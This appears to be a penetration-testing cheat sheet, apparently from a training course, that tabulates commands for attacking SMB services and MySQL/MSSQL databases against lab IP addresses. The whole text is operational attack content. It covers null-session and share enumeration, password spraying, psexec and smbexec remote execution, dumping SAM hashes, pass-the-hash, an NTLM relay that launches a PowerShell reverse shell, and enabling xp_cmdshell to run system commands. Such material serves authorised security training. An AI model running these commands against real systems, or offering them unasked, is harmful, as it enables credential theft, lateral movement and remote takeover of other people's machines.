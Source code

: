 
### Attacking SMB

|**Command**|**Description**|
|---|---|
|`smbclient -N -L //10.129.14.128`|Null-session testing against the SMB service.|
|`smbmap -H 10.129.14.128`|Network share enumeration using `smbmap`.|
|`smbmap -H 10.129.14.128 -r notes`|Recursive network share enumeration using `smbmap`.|
|`smbmap -H 10.129.14.128 --download "notes\note.txt"`|Download a specific file from the shared folder.|
|`smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`|Upload a specific file to the shared folder.|
|`rpcclient -U'%' 10.10.110.17`|Null-session with the `rpcclient`.|
|`./enum4linux-ng.py 10.10.11.45 -A -C`|Automated enumeratition of the SMB service using `enum4linux-ng`.|
|`crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`|Password spraying against different users from a list.|
|`impacket-psexec administrator:'Password123!'@10.10.110.17`|Connect to the SMB service using the `impacket-psexec`.|
|`crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`|Execute a command over the SMB service using `crackmapexec`.|
|`crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`|Enumerating Logged-on users.|
|`crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`|Extract hashes from the SAM database.|
|`crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`|Use the Pass-The-Hash technique to authenticate on the target host.|
|`impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`|Dump the SAM database using `impacket-ntlmrelayx`.|
|`impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>`|Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`.|

---

### Attacking SQL Databases

|**Command**|**Description**|
|---|---|
|`mysql -u julio -pPassword123 -h 10.129.20.13`|Connecting to the MySQL server.|
|`sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30`|Connecting to the MSSQL server.|
|`sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux.|
|`sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server.|
|`mysql> SHOW DATABASES;`|Show all available databases in MySQL.|
|`mysql> USE htbusers;`|Select a specific database in MySQL.|
|`mysql> SHOW TABLES;`|Show all available tables in the selected database in MySQL.|
|`mysql> SELECT * FROM users;`|Select all available entries from the "users" table in MySQL.|
|`sqlcmd> SELECT name FROM master.dbo.sysdatabases`|Show all available databases in MSSQL.|
|`sqlcmd> USE htbusers`|Select a specific database in MSSQL.|
|`sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`|Show all available tables in the selected database in MSSQL.|
|`sqlcmd> SELECT * FROM users`|Select all available entries from the "users" table in MSSQL.|
|`sqlcmd> EXECUTE sp_configure 'show advanced options', 1`|To allow advanced options to be changed.|
|`sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1`|To enable the xp_cmdshell.|
|`sqlcmd> RECONFIGURE`|To be used after each sp_configure command to apply the changes.|
|`sqlcmd> xp_cmdshell 'whoami'`|Execute a system command from MSSQL server.|